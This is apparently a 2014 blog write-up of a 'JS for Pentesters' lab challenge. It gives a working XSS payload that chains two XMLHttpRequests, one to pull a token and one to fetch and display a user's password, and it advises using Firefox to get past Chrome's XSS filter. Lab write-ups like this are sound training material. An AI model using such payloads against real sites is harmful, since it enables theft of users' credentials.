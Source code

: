 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-11-03 14:36:49+00:00
layout: post
slug: xss-multilevel-json-parsing-js-pentesters-task-20
title: 'XSS - Multilevel JSON Parsing: JS for Pentesters task 20 write up'
wordpress_id: 5782
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-20 of the JS for pentesters series by security-tube - Multiilevel JSON parsing
---
```


Lately we saw and understood that XMLHttpRequest() is very powerful and it can not only receive strings as response but also HTML, JSON and XML too. We have seen in last challenge on how to do a Multi level HTML Parsing and now let us see how can we do a Multi level JSON parsing.

[JS for Pentesters task 20](http://pentesteracademylab.appspot.com/lab/webapp/jfp/20/)


Our objective is to Find John's Password using an XSS vulnerability on this page and Display the Password in the div with id "result". Before continuing with this challenge, I strongly recommend you read the topic "[Ajax:Parsing and reading JSON]({{ site.url }}/2014/09/15/ajax-parsing-reading-json-files/)" which will cover the basics of parsing and reading JSON files with XMLHttpRequest(). I have solved this challenge in a hurry so I am not sure the following is the best solution. But I am sure payload below works ;) .

{% highlight html lineos %}
    <script>
        var request = new XMLHttpRequest();
        request.onreadystatechange = function() {
            if ((request.readyState === 4) && (request.status === 200)) {
                var items = JSON.parse(request.responseText);
                for (var keys in items) {
                    tokenid = items[keys].token;
                    break;
                }
                var req = new XMLHttpRequest();
                req.onreadystatechange = function() {
                    if ((req.readyState === 4) && (req.status === 200)) {
                        var newitems = JSON.parse(req.responseText);
                        for (var key in newitems) {
                            pass = newitems[key].password;
                            alert(pass);
                            break;
                        }
                    }
                }
                req.open('GET', '/lab/webapp/jfp/20/getpassword?token=' + tokenid);
                req.send();
            }
        }
        request.open('GET', '/lab/webapp/jfp/20/gettoken?uid=3476');
        request.send();
    </script>
{% endhighlight %}

So let us see what we have done here. What we basically doing here is that we need to get the token from the first request which in turn gives back a JSON file from which we need to parse and get the token and using this token we need to send a request to `/lab/webapp/jfp/20/getpassword` which will give us the correct password. Most of the modern browsers supports the JSON.parse function which helps us in parsing the JSON file got back by as the result.

**Note:**

1) While playing with XSS challenges, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt **XSS** stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
